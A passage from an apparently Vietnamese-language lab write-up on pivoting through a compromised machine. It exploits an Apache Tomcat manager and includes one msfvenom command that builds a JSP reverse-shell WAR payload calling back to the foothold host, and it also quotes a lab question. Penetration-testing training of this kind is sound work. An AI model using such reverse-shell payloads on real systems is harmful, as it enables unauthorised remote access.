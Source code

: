 ![](images/11.png)
Để ý IP trong LAN của con máy foothold này là 172.16.1.5
Khai thác và tạo Payload tham khảo [bài viết này][https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00] 
Trông con máy khá lỏ nên không chắc nó tạo payload mà không lỗi lầm vì thử khai thác với msfconsole thấy mất hết module nên mình tạo ở máy nhà rồi chuyển sang:

```zsh
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=1234 -f war > foo.war
```

Và sau đó chúng ta có shell của Host-01

![](images/12.png)


- Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case)

![](images/13.png)
